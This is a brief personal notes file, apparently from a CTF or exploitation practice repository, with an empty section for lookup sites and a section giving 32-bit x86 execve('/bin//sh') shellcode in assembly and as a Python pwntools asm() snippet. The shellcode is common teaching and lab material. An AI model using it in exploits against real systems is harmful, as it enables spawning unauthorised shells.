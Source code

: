 # note

## 查询网站



## shellcode

### execve sh

asm

```asm
push 6845231
push 1852400175
xor edx, edx
xor ecx, ecx
mov ebx, esp
mov eax, 0xb
int 0x80
```

python

```python
asm_code = '''
    push 6845231    /* 682f736800 */
    push 1852400175
    xor edx, edx
    xor ecx, ecx
    mov ebx, esp
    mov eax, 0xb
    int 0x80
'''
shellcode = asm(asm_code)
```


